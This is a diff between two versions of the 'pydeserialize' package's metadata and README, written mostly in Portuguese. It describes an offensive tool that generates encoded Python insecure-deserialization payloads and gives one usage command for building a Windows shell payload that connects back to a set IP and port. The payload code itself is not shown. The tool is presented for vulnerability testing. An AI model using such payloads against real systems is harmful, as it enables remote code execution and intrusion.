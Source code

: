 ### Comparing `pydeserialize-0.0.9/pydeserialize/run.py` & `pydeserialize-0.1.0/pydeserialize/run.py`

 * *Files identical despite different names*

### Comparing `pydeserialize-0.0.9/PKG-INFO` & `pydeserialize-0.1.0/PKG-INFO`

 * *Files 12% similar despite different names*

```diff
@@ -1,10 +1,10 @@
 Metadata-Version: 2.1
 Name: pydeserialize
-Version: 0.0.9
+Version: 0.1.0
 Summary: Desserialização insegura em python
 Home-page: https://github.com/joaoviictorti/pyserialize
 License: MIT
 Author: João
 Author-email: joaovictorti08@gmail.com
 Requires-Python: >=3.11,<4.0
 Classifier: License :: OSI Approved :: MIT License
@@ -15,22 +15,23 @@
 
 <img width=100% src="https://capsule-render.vercel.app/api?type=waving&color=0000FF&height=120&section=header"/>
 
 [![Typing SVG](https://readme-typing-svg.herokuapp.com/?color=0000FF&size=32&center=true&vCenter=true&width=1000&height=30&lines=pydeserialize)](https://git.io/typing-svg)
 
 
 
-<h4 align="center">Tool for testing python insecure deserialization vulnerabilities</h4>
+<h4 align="center">pydeserialize testar vulnerabilidades de desserialização insegura do python</h4>
 
 
 <p align="center">
-  <a href="#características">Features</a> •
-  <a href="#instalação">Install</a> •
-  <a href="#forma-de-utilização">How to use</a> •
-  <a href="#executando-pydeserialize">Usage</a>
+  <a href="#características">Características</a> •
+  <a href="#instalação">Instalação</a> •
+  <a href="#forma-de-utilização"> Forma de utilização</a> •
+  <a href="#detalhes">Detalhes</a> •
+  <a href="#executando-revmap">Executando revmap</a>  
 </p>
 
 ---
 
 
 O pydeserialize é uma ferramenta que gera payloads de desserialização insegura em python. Possui uma funcionalidade que faz encode das payloads desejadas e dessa forma sendo simples e otimizada para velocidade. pydeserialize é construído para fazer apenas uma coisa - gera payloads de desserialização insegura + encodes e faz isso muito bem.
 
@@ -42,22 +43,23 @@
 
 # Forma de utilização
 
 ```sh
 pydeserialize -ip 192.168.4.113 -p 80 -e shell -o Windows
```